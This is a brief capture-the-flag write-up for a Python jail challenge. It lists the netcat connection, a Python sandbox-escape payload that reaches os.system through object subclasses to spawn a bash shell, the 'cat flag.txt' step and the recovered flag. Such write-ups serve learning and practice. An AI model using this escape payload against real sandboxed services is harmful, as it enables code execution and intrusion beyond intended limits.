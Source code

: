 **Context**

![image](context3.png)

**Connection** `nc 16.16.65.31 32000`

I use this payload
```python
().__class__.__base__.__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('/bin/bash')
```
After this, I run
```shell
cat flag.txt
```

**Result**

![image](result3.png)

**FLAG:** `acdfCTF{M45t3r_0f_j41l_br34k3r}`

**Reference**: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes

